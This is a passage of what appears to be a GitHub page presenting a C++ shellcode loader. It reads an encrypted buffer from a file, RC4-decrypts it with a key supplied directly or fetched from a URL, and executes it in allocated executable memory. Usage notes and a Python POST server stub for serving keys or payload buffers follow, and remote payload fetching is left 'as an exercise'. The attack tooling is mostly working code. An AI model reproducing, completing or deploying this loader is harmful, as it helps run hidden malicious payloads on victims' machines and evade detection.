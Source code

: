 ```cpp
                file.seekg(0, std::ios::end);
                bufferSize = file.tellg();
                buffer = new unsigned char[bufferSize];
                file.seekg(0, std::ios::beg);
                file.read(reinterpret_cast<char*>(buffer), bufferSize);
            } else {
                std::cerr << "Failed to open file: " << argv[i] << std::endl;
                return 1;
            }
        } else if ((arg == "-r" || arg == "--remote") && i + 1 < argc) {
            // Code to download the buffer via HTTP or POST
            // This is left as an exercise for the reader; similar to getWebKey() but fetches binary data
        }
    }

    rc4(buffer, bufferSize, key.c_str(), key.size());
    executeBuffer(buffer, bufferSize);

    // Clean up if buffer was dynamically allocated
    if (buffer != encryptedBuffer) {
        delete[] buffer;
    }

    return 0;
}
```

### Key Points of the Program:
- **RC4 Decryption**: The function `rc4()` handles decryption using the RC4 algorithm.
- **Web Key Retrieval**: The function `getWebKey()` retrieves a decryption key from a provided URL.
- **Shellcode Execution**: `executeBuffer()` allocates executable memory, copies the decrypted buffer into it, and executes it.
- **Command-line Options**:
  - `-k` or `--key`: Provide the decryption key directly.
  - `-w` or `--web-key`: Retrieve the key from a URL.
  - `-f` or `--file`: Load an encrypted buffer from a file.
  - `-r` or `--remote`: Placeholder for loading the buffer from an HTTP request (exercise for the reader).

### Example Usage:
- Using a local key: `program.exe -k mysecretkey`
- Fetching the key from a URL: `program.exe -w http://example.com/key`
- Loading the buffer from a file: `program.exe -f encrypted.bin`

### Simple Python Web Server for POST Requests:
You can set up a simple Python web server to return a POST request:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class SimpleHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print(f"Received POST data: {post_data.decode('utf-8')}")
        
        # Return the response (key, buffer, etc.)
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(b"your_key_or_buffer_data_here")

```